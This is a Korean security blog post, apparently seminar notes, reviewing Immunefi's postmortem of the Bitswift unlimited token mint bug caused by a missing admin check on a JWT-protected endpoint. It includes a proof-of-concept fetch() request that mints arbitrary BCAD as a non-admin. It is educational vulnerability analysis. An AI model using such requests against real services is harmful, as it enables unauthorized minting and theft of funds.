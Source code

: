 ```yaml
---
title:  "Bitswift Unlimited Mint Bugfix Postmortem 리뷰"
excerpt: "Immunefi Bitswift Unlimited Mint Bugfix Postmortem 문서 학습 목적으로 살펴본 내용임"

author: Panda
categories:
  - Security
  - Blockchain
tags:
  - Web
  - Logical Bug
  - Medium Severity
  - Review
  - Korean
#last_modified_at: 2021-09-23 18:06:00 +09:00
date: 2022-02-16 19:00:00 +09:00
lastmod: 2022-02-17 19:00:00 +09:00
sitemap :
changefreq : daily
priority : 1.0

# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정

#{% figure caption:"Le logo de **Jekyll** et son clin d'oeil à Robert Louis Stevenson"
#  %}
#  ![Le logo de Jekyll]({{"/assets/images_posts/2021-09-23-cve-2021-31956-part1/1.png"| #relative_url}})
#{% endfigure %}
---
```

# Executive Summary
이 문서는 Immunefi사의 기술 블로그중 [Bitswift Unlimited Mint Bugfix Postmortem](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9) 문서를 읽고 BEARS 팀내 기술 세미나 자료로 활용하기 위해 작성되었으며, 해당 블로그 내용 공유를 통해 Smart Contract내 취약점 유형을 학습하는데 중점을 두고 작성된 문서입니다.

# Background
## Bitswift(BITS)
* 캐나다 소재 블록체인 기술 기업 주관의 프로젝트(블록체인 네트워크)
  * 국내 회사 [블록체인랩스](https://infrablockchain.com/ko)와 사업 영역이 비슷하게 느껴짐
  * 블록체인랩스는 COOV와 같은 정부 과제를 블록체인기반 솔류션을 제공하는 것을 목표로함
* 기존 사업영역에 블록체인 기술을 제공하는 것이 주요 사업임
* 블록체인 네트워크는 2014년에 런칭됨
* BITS(Bitswift 토큰)은 Bitswift 블록체인과 Bitswift사에서 직접 제공하는 서비스 Bitswift 캐시(크립토 케이트웨이 서비스) 및 관련 제품에 활용됨
  * Bitswift Forging Pool(LZLZ)
  * Bitswift Cash : 다른 다양한 블록체인 네트워크에 접속할 수 있는 게이트웨이 서비스
  * NFTMagic ART : BITS를 지원하는 NFT 시장
  * Sigbro : Ignis, ARDR에 서명된 트랜젝션을 전송할 수 있는 모바일앱

# Introduction
* 2021.12.8.에 보안전문가 Immunefi에 버그 제보
* 제보한 버그는 BCAD 토큰을 무한히 민팅할 수 있고, 해당 토큰을 이용해 지금 liquid 풀에서 다른 토큰을 빼올 수 있음
* Bitswift사는 4,515달러를 보안전문가에게 지급하고 해당 취약점 패치
* 결론부터 이야기 하면 취약점이 너무 단순하기 때문에, 개발자의 실수라고 밖에 생각할 수 없는 그러한 취약점임

# Vulnerability
## Introduction to JWT
* JWT에 대해서는 추가적으로 기술 조사를 별도로 실시 예정(점진적으로 보완), [JSON Web Token관련 공격 블로그](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)도 확인하여 정리실시할 예정임
* JWT는 서버와 클라이언트(브라우저)간 신뢰할 수 있는 정보를 전달하는 목적으로 사용됨
* 아래 그림과 같이 사용자가 ID와 패스워드를 포스트(post) 프로토콜로 전달후, 인증이 성공적으로 통과하면 그림2와 같은 JWT 토큰을 받게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/post_request.png"| relative_url}})  |
|:--:| 
| 그림.1 ID, 패스워드 POST REQUEST |


| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_token.png"| relative_url}})  |
|:--:| 
| 그림.2 인증을 통과후 사용자가 받는 JWT 토큰 |

이 후에 사용자가 서비스를 접근할 때 해당 서비스 서버는 헤더의 JWT 속성을 보고 해당 사용자에 대한 서비스 접근 제어를 하게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_header.png"| relative_url}})  |
|:--:| 
| 그림.3 HTML 헤더내 JWT 토큰기반 접근 제어 |

결국 JWT 토큰은 인증 정보를 가지고 다는 것이 되며, JWT 토큰은 주로 프로트엔드 코드내 HTML5 표준에 정의되어 있는 `localstorage` 에 저장된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_localstorage.png"| relative_url}})  |
|:--:| 
| 그림.4 localstorage에 저장된 JWT 토큰 |

## Bitswift Issue
그럼, 다시 Bitswift 취약점으로 돌아가보자.  
Bitswift는 관리자와 일반 사용자를 구분하기 위해 JWT 토큰을 자기들 서비스에 도입하였다.
서비스 종단에서는 해당 서비스 요청자가 관리자 여부를 확인함으로써 기능을 제한하겠다는 의도로 도입한 것이다.  
그런데 정말 아쉽게도, bcad/credit의 서비스 종단에서는 어떠 권한 확인도 하지 않는다는 것이다. 즉 JWT 토큰을 도입해 놓고 실제로 사용을 하지 않은 것이다.  

```json
{
  “admin”: false,
  “aud”: [
    2625,
    “bitswift.cash”
  ],
  “exp”: 1639641831,
  “iat”: 1639638231,
  “iss”: “bitswift.cash”,
  “jti”: “5tpR-bagAJO4aerV8iFHN5CzVRf_zXdXGVRQjRPwbvU=”,
  “nbf”: 1639638231,
  “sub”: 2625,
  “username”: “immunefi”,
  “verified”: false
}
```

아래 코드는 BCAD내 사용자 인증정보에 대해서 확인하는 함수인데, 해당 사용자가 보유한 Token의 권한이  
admin인지 일반 사용자인지 여부는 관계 없이 해당 토큰이 정상적인 토큰이면, 통과하게 된다.  

```javascript
async confirmCreditSubmit(e) {
    e.preventDefault();
    const multiplier = new BigNumber(1000000);
    const userAmount = new BigNumber(this.state.amount).multipliedBy(multiplier);
    const res = await this.props.apiClient.BCADCredit({
      amount: userAmount.toNumber(),
      unique_message: this.props.user.unique_message,
    }, this.user.accessToken)
    if (res.success === true) {
      this.setState({
        modal: false,
        confirmModal: false,
      });
    } else {
      this.setState({
        error: `Failed to credit BCAD to the user${res.msg ? ‘: ‘ + res.msg : ‘’}`
      });
    }
 }
```

따라서 아래와 같은 취약점을 유발할 수 있는 POST 메세지를 전달하면, 인증을 통과하고 우리가 원하는 갯수만큼  
토큰을 생성(민팅)할 수 있다.

```javascript
let res = await fetch(‘https://bitswift.cash:8443/bcad/credit', {
    method: ‘POST’,
    mode: ‘cors’,
    headers: {
        ‘Content-Type’: ‘application/json’,
        ‘Authorization’: ‘Bearer ‘ + token
    },
    body: JSON.stringify({
      amount: 9999999999999999,
      unique_message: “9C83C69E98A7152693E3AB357649744765456614”, //use your account’s unique message
    }),
    redirect: ‘follow’,
    referrer: ‘no-referrer’,
});
res = await res.text();
console.log(res); //success, despite not being an admin
```

해당 취약점의 경우 Bitswfit사로 부터 $4500 밖에 못 받았는데, 실제적으로 토큰을 새로 생성후  
탈취하는 취약점을 못 찾았기 때문에 금액이 작게 책정된 것이 아닌가?라는 생각이 들었다.

# Lesson
* 아직 블록체인 관련 서비스를 살펴보면 기존 웹영역 PT(Pen-Testing)보다 적은 노력으로 취약점을 발견할 수 있는 기회가 있다.라는 생각이 드는 사례라고 생각합니다.
* 기존 웹서비를 생각하고 설마 이런 것 까지 취약점이 있을까? 라는 선입견을 버리고, 핵심 기능부분은 꼼곰하게 분석하면 정말 쉽게 취약점을 찾을 수 있을 것으로 판단이 됩니다.

# References
* Bitswift 관련 사이트
  *  [https://bitswift.io](https://bitswift.io)
  *  [https://bitswift.tech](https://bitswift.tech/)
  *  [https://bitswift.cash/](https://bitswift.cash/)
  *  [https://nftmagic.art/](https://nftmagic.art/)
  *  [https://bitswift.cash/explorer/blocks](https://bitswift.cash/explorer/blocks)
  *  [https://myaccount.bitswift.network/index.html](https://myaccount.bitswift.network/index.html)
* [https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9)
* [https://infrablockchain.com/ko](https://infrablockchain.com/ko)
* [Hacking JSON Web Token(JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)